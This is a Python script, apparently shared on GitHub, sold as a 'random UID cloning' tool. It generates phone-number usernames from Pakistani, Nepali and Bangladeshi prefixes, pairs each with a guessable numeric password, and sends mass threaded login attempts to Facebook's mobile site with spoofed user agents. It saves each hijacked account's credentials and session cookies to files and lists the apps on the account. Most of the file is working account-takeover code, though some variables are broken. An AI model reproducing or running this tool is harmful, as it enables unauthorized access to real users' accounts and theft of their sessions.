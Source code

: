 
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import marshal
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python U-MAIL.py')
    os.system('pip install bs4')
from bs4 import BeautifulSoup
ugen = []
color=random.choice(['\033[1;31m','\033[1;32m','\033[1;33m','\033[1;35m','\033[1;34m','\033[1;97m'])
A = '\x1b[1;97m'
B = '\x1b[1;96m'
C = '\x1b[1;91m'
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;37m'
E = '\x1b[1;93m'
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;37m'
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;32m'
ORANGE = '\033[1;35m'
AHMADO = '{ AHMADO }'
for xd in range(10000):
    a='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)

loop = 0
cps = []
oks = []
twf = []
#os.system('xdg-open https://www.facebook.com/profile.php?id=100077385914874')
os.system('xdg-openhttps://github.com/Maruf-10')

def clear():
    os.system('clear')
    print(poker)
poker = """

\033[1;32m 
\033[1;32m
                     __  __                   __ 
 |  \/  |                 / _|
 | \  / | __ _ _ __ _   _| |_ 
 | |\/| |/ _` | '__| | | |  _|
 | |  | | (_| | |  | |_| | |  
 |_|  |_|\__,_|_|   \__,_|_|  
                              
                              
                                           


\033[1;32m ╔══════════════════════════════════════╗
\033[1;32m ║\033[1;32m➠𝐀𝐔𝐓𝐇𝐎𝐑     :MARUF                   \033[1;32m║
\033[1;32m ║\033[1;33m➠𝐅𝐀𝐂𝐄𝐁𝐎𝐎𝐊   :𝐌d MARUF               \033[1;32m║
\033[1;32m ║\033[1;33m➠𝐆𝐈𝐓𝐇𝐔𝐁     :Maruf-10.                     \033[1;32m║
\033[1;32m ║\033[1;32m➠𝐓𝐎𝐎𝐋𝐒      :𝐑𝐀𝐍𝐃𝐎𝐌 𝐁𝐃 𝐂𝐋𝐎𝐍𝐈𝐍𝐆        \033[1;32m║
\033[1;32m ║\033[1;35m➠𝐓𝐎𝐎𝐋 𝐒𝐓𝐀𝐓𝐄 :𝐅𝐑𝐄𝐄                     \033[1;32m║
\033[1;32m ║\033[1;97m➠𝐁𝐄𝐋𝐈𝐄𝐕𝐄 𝐘𝐎𝐔𝐑 𝐒𝐄𝐋𝐅                    \033[1;32m║
\033[1;32m ╚══════════════════════════════════════╝ """




#####     ####




def linex():
    print(f'\033[1;35m༄SHAKIB•───────────────────────────────────────•༄71᭄')
def checks(oks,cps,twf):
    if not len(oks) != 0:
        pass
    if len(cps) != 0:
        print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mSHAKIB-OK.txt' % (
            H, P, str(len(oks))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mSHAKIB-CP.txt' %
              (H, P, str(len(cps))))
        print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mSHAKIB-2F.txt' %
              (H, P, str(len(twf))))
        input("\x1b[1;97mPRESE ENTER TO BACK xyz  ")
        xyz()
loop = 0
cps = []
oks = []
twf = []
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS %s  '%(ORANGE))
    else:
        print(f'\r {GREEN}[•] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS %s'%(ORANGE))
    else:
        print(f'\r   %{Green}sYOUR EXPIRED APKS DETAILS :'%(Green))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N))
            print(f"{GREEN}[•]---------------------------------------------------[•]")
    #____________#
def Anto():
    os.getuid
    os.system("clear");print(poker)
    print('           \x1b[97m[\033[1;33m     MAIN MENU    \033[0;m] ')
    print(f"")
    print(f"{GREEN}[01]"+color+"RANDOM UID CLONING")
    print(f"{GREEN}[00]"+color+"EXIT PROGRAM ")
    print(f"")
    AHMADO = input("[•] CHOOSE : ")
    if AHMADO in ["1","01"]:
        Tabii()
    elif AHMADO in ["0","00"]:
       exit()
    else:
        print('\033[1;31mINCORECT OPTION!\033[1;31m')
        Anto()

#==========================================================#

#========================================================== #

def Tabii():
    user=[]
    os.getuid
    os.geteuid
    os.system("clear")
    os.system(" xdg-open https://www.facebook.com/profile.php?id=100076836152171")
    print(poker)
    print(f"")
    clear()
    print(f"")
    linex()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    print('  PAK CODE - 92306  92300  92315  92318  92345  ')
    print(f"SHAKIB───────────────────────────────────────•༄71᭄")
    print(f" NEPAL CODE -  97797  97795  97781  97787")
    print(f"SHAKIB───────────────────────────────────────•༄71᭄")
    print(f" BD CODE -  0197   0175  0189  0150  0143   0139   ")
    print(f"SHAKIB───────────────────────────────────────•༄71᭄")
    print(f"")
    linex()
    code = input(' CHOOSE A CODE : ')
    os.system("clear")
    print(poker)
    print(f"")
    print(f"          \x1b[97m[\033[1;32m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 1000  2000  5000   10000   99999\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {BLUE}"+tl)
        print(f" {WHITE}TOOL STATE            : {BLUE}FREE")
        print(f" {WHITE}NUMBER YOU PUT        : {BLUE}"+code)
        print(f" {WHITE}PROCESS HAS BEEN STARTED")
#        print(f" {WHITE}BE PATIENT.......")
        print(f'{YELLOW}───────────────────────────────────────')
        for love in user:
            uid = code+love
            pwx = [love]
            yaari.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global oks
    global agents
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'mbasic.facebook.com',
            'method': 'GET',
            'schem': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-US,en;q=0.9',
           # 'cookie': 'datr=WcRTZFgZ_z1A0Jt3e1d9R_WC; sb=WcRTZBpGNDLRlQvk0EP_vN2c; vpd=v1%3B1021x512x1.40625; dpr=1.40625; wl_cbv=v2%3Bclient_version%3A2244%3Btimestamp%3A1683615068; locale=en_US; wd=512x1021; fr=0d3AcLuhXRnD4ovQD.AWWomZ8K9Mj6v1xTEnBE5B3SWFU.BkU8RZ.zO.AAA.0.0.BkZeLh.AWXYZw3l9gM',
            'sec-ch-prefers-color-scheme': 'light',
            'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"',
            'sec-ch-ua-full-version-list': '"Not:A-Brand";v="99.0.0.0", "Chromium";v="112.0.5615.137"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-ch-ua-platform-version': '"11.0.0"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro }
            lo = session.post('hhttps://mbasic.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\033[1;32m══════════════════════════════════════════')
                print('\r\033[1;32m[✓] STATUS   :SHAKIB_OK💉')
                print('\r\033[1;32m[✓] NUMBER    : '+uid+'  ')
                print('\r\033[1;32m[✓]PASSWORD     : '+ps+' ')
                print('\r\033[1;32m══════════════════════════════════════════')
                print('\r\033[1;32m[✓] USER COOKIES: '+coki+' ')
                print('\r\033[1;32m══════════════════════════════════════════')
                cek_apk(session,coki)
                open('/sdcard/SHAKIB-OK.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(idf + '|' + pw)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[24:39]
                Green = '\033[1;32m'
                print('\r\033[1;32m══════════════════════════════════════════')
                print('\r\033[1;32m[✓] STATUS : SHAKIB_OK💉')
                print('\r\033[1;32m[✓] NUMBER    : ' +uid+ ' ')
                print('\r\033[1;91m[✓]PASSWORD     :' +ps+ ' ')
                print('\r\033[1;32m══════════════════════════════════════════')
                open('/sdcard/SHAKIB-CP.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(idf + '|' + pw)
                break
            elif '/x/checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[7:22]
                Green= '\033[1;32m'
                print(f'\r{YELLOW}[TP-LOCK] '+cid+' | '+ps+'\033[1;97m')
                open('/sdcard/2F-😩.txt', 'a').write(cid+' | '+ps+'\n')
                twf.append(cid)
            else:
                continue
        loop+=1
        sys.stdout.write('\r%s ☬ %s/%s ☬ OK:%s ☬ CP:%s ☬ %s%s%s ☬' % (bi, loop, len(id2), ok, cp, int(pers), str(fff), x))
        sys.stdout.flush()
        checks(oks,cps,twf)
    except:
        pass



if __name__ == '__main__':
    Anto()


